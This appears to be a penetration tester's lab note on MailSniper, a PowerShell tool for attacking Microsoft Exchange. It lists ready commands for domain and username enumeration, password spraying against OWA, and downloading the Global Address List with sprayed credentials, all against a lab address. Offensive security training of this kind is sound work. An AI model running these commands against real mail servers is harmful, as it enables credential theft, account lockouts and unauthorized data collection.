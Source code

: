 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[MailSniper]]  
___

## Description:
MailSniper is a penetration testing tool for searching through email in a Microsoft Exchange environment for specific terms (passwords, insider intel, network architecture information, etc.).

MailSniper also includes additional modules for password spraying, enumerating users and domains, gathering the Global Address List (GAL) from OWA and EWS and checking mailbox permissions for every Exchange user at an organization.

## Installation
Download [MailSniper](https://github.com/dafthack/MailSniper)

On the **attacker-windows** VM, open PowerShell and import MailSniper.ps1.
`ipmo C:\Tools\MailSniper\MailSniper.ps1`


## Commands
Enumerate the NetBIOS name of the target domain
`Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100`

Validate usernames with timing attack
`Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt`

Password Spary 
Can cause lockouts! Too many attempts in a short space of time is not only loud, but may also lock accounts out.
`Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021`

Downloading Global Address List with valid creds. respray after list is downloaded
`Get-GlobalAddressList -ExchHostname 10.10.15.100 -UserName CYBER\iyates -Password Summer2021 -OutFile gal.txt`

Go to exchange hostname and log in with valid creds http://exchange-ip-or-hostname/

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (02:42 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

